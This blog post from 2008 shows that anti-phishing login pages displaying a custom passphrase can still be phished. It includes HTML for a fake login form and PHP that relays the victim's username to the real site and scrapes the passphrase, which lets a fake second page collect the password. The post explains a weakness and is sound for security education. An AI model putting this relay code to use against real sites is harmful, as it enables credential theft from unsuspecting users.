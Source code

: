 ```yaml
---
title: How custom passphrases/pictures still don't protect against phishing
date: 2008-11-20
tag:
- security
---
```

As you probably remember, I have lots of interest in phishing techniques (I talked about one [here](/blog/2007/07/11/the-anatomy-of-a-phishing-attack-advanced-technique/), and preventing them [here](/blog/2007/07/11/the-top-17-ways-to-help-eliminate-the-phishing-threat/)).  I've noticed a new trend: a dual stage login form with a custom picture or passphrase.  Users are to gain trust in the login page because their custom configured option is displayed.  The more I started thinking about this, however, I kept seeing an issue - this still can be easily phished!  

<!--more-->

I'm going to demonstrate a method of phishing the passphrase version.  I don't want to do a picture example because it a) takes more code and b) more people have moved to that thinking it is more secure.  Let's go:

First off, all phishing starts with getting the user to a login page not at the respected domain.  So, let's just skip that step, and examine our login page.  This will be a duplicate of our real site's login page - note the reminder that they will have to verify their passphrase.

{{< filename-header "http://fakedomain.com/login.php" >}}
```html
<form action="login2.php" method="post">
  <label>Username: <input name="username"></input><br></br>
  <em>Remember, you will be asked to verify your passphrase on the next page.</em>
  <br></br>
  <input type="submit" value="Login"></input>
</form>
```

Very simple login which sends it to another page - hopefully named the same as the real domain's login page.

Let's look at the page we'll be submitting to:

{{< filename-header "http://fakedomain.com/login2.php" >}}
```php    
/** cutting out a lot of code - make sure its not empty, etc **/
$args = array ('username'=>$_POST['username']);
$uri = 'http://realdomain.com/login.do.php';
$opts = array(
  'http' => array(
    'method' => 'POST', 
    'header' => 'Content-Type: application/x-www-form-urlencoded', 
    'content' => http_build_query($args)
  )
);
$context = stream_context_create($opts);
$page_with_phrase = file_get_contents($uri, false, $context);

$doc = new DomDocument();
$doc->loadHTML($page_with_phrase );

$passphrase = $doc->getElementById('passphrase_node')->nodeValue;

// next login form page actually shows the 
// $passphrase phrase and asks for password
include('next_login_form.php');
```

Ok, first off, you'll see we create a nice post with our stream context creation ([detailed here](/blog/2008/11/14/posting-requests-in-php-without-curl/)) - so we basically send the username to the real domain as they had logged in.  (Depending on the target site, you might also have to send referrers, cookies, etc - but we're making it a really simple example here.)

We retrieve the page after a successful post of the username.  This content should now contain the custom passphrase somewhere.  For our example, there is a nicely named `div` or `span` with an id of `passphrase_node`.  Probably, in real life, you'd have to use a complex XPath to get the actual value.

From then on, we just include our 'second' login page which shows the passphrase, and then requests the password from the user.  From there, you can do whatever you want.

**Ok so...**
Its nice to see that people are trying to eliminate phishing - but there still is only one real solution IMHO - and that is to educate users on the address bar (or get them to install a plugin that validates the page they're on.).

